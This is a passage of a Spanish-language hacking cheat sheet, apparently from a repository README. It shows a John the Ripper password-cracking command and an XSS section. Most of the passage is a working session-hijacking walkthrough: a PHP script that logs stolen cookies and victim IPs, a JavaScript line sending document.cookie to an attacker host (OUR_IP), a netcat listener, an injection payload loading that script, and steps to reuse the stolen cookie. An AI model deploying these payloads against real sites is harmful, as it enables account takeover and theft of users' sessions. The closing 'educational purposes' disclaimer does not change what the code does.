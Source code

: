 5️⃣ **Crackear hashes obtenidos** con John the Ripper:
   ```bash
   john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
   ```

---

## 🔎 XSS (Cross-Site Scripting)

### 🔹 Tipos de XSS
- **Reflected** → Se ejecuta una sola vez al cargar la página.
- **Stored** → Se almacena en la base de datos y afecta a todos los usuarios.

### 🔹 Payload básico para prueba 📜
```html
<script>alert("HAS SIDO HACKEADO")</script>
```

### 🔹 Secuestro de sesión (Session Hijacking) 🏴‍☠️
1. **Preparar servidor para recibir cookies**:
   ```bash
   mkdir /tmp/tmpserver && cd /tmp/tmpserver
   ```
2. **Crear `index.php`** para capturar cookies:
   ```php
   <?php
   if (isset($_GET['c'])) {
       $list = explode(";", $_GET['c']);
       foreach ($list as $key => $value) {
           $cookie = urldecode($value);
           $file = fopen("cookies.txt", "a+");
           fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
           fclose($file);
       }
   }
   ?>
   ```
3. **Crear `script.js`** para robar cookies:
   ```js
   new Image().src='http://OUR_IP:8080/index.php?c='+document.cookie
   ```
4. **Escuchar tráfico con Netcat**:
   ```bash
   nc -lnvp 8080
   ```
5 - Prueba los campos con el payload
    
    "><script src=http://OUR_IP:8080/script.js></script>
  
6 - Recibe el archivo cookie.txt con la coockie
7 - Pon la cookie en tu navegador 

    Inspect > storage > pega cookie > refresca


📌 **Este documento es solo para propósitos educativos. ¡Usa este conocimiento de forma ética!** 🛡️
